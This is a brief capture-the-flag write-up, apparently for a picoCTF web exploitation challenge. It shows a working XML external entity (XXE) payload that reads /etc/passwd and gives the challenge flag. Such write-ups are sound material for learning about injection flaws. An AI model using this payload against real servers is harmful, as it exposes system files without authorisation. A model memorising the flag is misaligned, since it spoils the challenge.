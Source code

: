 # Overview 
Category: [Web Exploitation]()

AUTHOR: GEOFFREY NJOGU

# Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

# Solution
- I use Burp Suite to catch the request : 
<img src="https://i.imgur.com/8Hze7T2.png">
- XML external entity Injection (XXE):

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
```

- Can read the /etc/passwd file :
<img src="https://i.imgur.com/xbLytEC.png">
> Flag : **picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}**